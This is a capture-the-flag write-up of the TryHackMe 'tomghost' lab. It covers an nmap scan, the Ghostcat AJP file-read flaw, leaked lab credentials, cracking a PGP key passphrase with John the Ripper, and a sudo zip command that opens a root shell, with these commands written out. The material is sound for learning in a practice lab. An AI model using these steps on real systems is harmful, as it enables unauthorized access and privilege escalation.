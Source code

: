 ## tomghost - Try Hack Me
Easy box from tryhackme

`export IP=10.10.170.225`

### Overveiw
- **NMAP**
- **AJP**
- **PGP**
- **GPG**

Link to the machine: https://tryhackme.com/room/tomghost



## user.txt

First we do a nmap `nmap -sC -sV @IP`
Output is the following:
```sh
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that 8009 is open running apj13.
A quick google search tells us this is vulnerable.
Seemes to be a local file inclusion vulnerability called tomghost that we can use.

### Apache JServ Protocol - AJP
Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited.

ExploitDB has a python script that can help us conduct the AJP requests to the server. It is pretty complex, but similar to a HTTP request. We use the script in order to just see if we geta response. When we run the script on the server, it replies witht the following string:

```sh
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

```

So we have a username and password. We can use this to log into the server on ssh.

We are in! Then we go to the home folder and `cd` in the `merlin` user. Here we find the user.txt, and we have permission to read it.

`python3 -m http.server 9001`

And then we wget the pgp and gpg files onto our machine. Old switcharoo.





## root.txt

There is a `.asc` file containing a private PGP private Key Block, and a .pgp file that contains some raw data that we cant read.

We can use johntheripper in order to create a hash for this and try to compare it with passwords from rockyou.
We do the ffollowing:
```sh
gpg2john tryhackme.asc > hash2
john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg hash2
```

And john finds the following password:
`alexandru        (tryhackme)`

This is the gpg password for the user. So we can add the private key to our list:
`gpg --import tryhackme.asc`

Then we supply the password that we just found.
And we can now decrypt the credential.pgp file:

`gpg -d credential.pgp`

- `-d` for decrypt.

We are then presented with the following username and password
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

After we log into merlin, we try the classic low hangin fruit `sudo -l`
and we see that merlin is allowed to run `zip`.
We then go to gtfobins and find a way to spawn a root shell.


Here are the commands to spawn a root shell:
```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

The first line creates a temporary file or directory, and `-u` makes it not create anything, just printing a name.
Line 2 we use `zip` with `sudo` on that file or directory `TF` with the `/etc/hosts` file. This will create a zipfile called `TF.zip` containing the /etc/hosts file.
Then also in line 2 we do a `-T` and `-TT` which will use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used.
And using the `-T -TT` we follow up with a shell for root using `'sh #'`.
Finally the tmp file/directory is deleted using the `sudo rm`.

We get a root shell and can just cat out the flag.
